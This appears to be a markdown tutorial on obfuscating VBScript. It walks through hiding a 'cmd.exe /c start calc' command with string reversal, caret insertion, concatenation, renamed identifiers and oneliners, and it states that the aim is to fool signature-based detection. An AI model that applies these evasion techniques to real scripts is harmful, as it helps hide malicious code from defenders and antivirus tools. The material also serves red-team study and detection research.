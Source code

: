 - String command to obfuscate<br />
`cmd.exe /c start calc`

- String obfuscated (test.vbs)<br />

      Dim rev
      Dim cmd
      rev = StrReverse("clac trats c/")
      cmd = "cMd.Exe ^B^U^F^F^E^R" & rev
      set objshell = CreateObject("Wscript.Shell")
      objShell.Run cmd

![vbscript obfuscation](http://i.cubeupload.com/6UqdZD.png)

- Obfuscating further the string inside StrReverse() object<br />
`rev = StrReverse("cl^ac ^ ^ tr^at^s R/^")`<br />

![vbscript obfuscation](http://i.cubeupload.com/yY02QY.png)<br />

- Obfuscating further the string using the [ + ] operator (concaternation)<br />
`rev = StrReverse("cl^ac "+" ^ "+" ^ tr^a"+"t^s R/^")`<br />

![vbscript obfuscation](http://i.cubeupload.com/1FViJX.png)<br />

      [Ofuscating Function Names] Function names or variable declarations can be further obfuscated
      be replacing human-readable names by a random string of characters, helping this way to throw
      more confusion to sourcecode and fool signature detection analysis based in certain patterns. 
 
<br />

![vbscript obfuscation](https://i.cubeupload.com/ZOoE5w.png)

- Obfuscating method names [lowercase and uppercase] and start of cmd functions with [ batch ] special chars<br />

![vbscript obfuscation](https://i.cubeupload.com/vycfL0.png)

- Build Oneliner (test.vbs)<br />

      [Build oneliner] VBScript uses the [ : ] character as end of command the same way bash and python
      uses the [ ; ] character to execute another command, this technic can be used to build our vbs oneliner.

![vbscript obfuscation](https://i.cubeupload.com/XWtrCW.png)

---

      [replace vbscript API] In this example the special character [ @ ] its deleted from the txt var string
      using wscript (Replace(txt,"@","")) builtin API together with [ objShell.Run ] method at runtime exec. 

<br />

- String command to obfuscate<br />
`cmd.exe /c start calc`
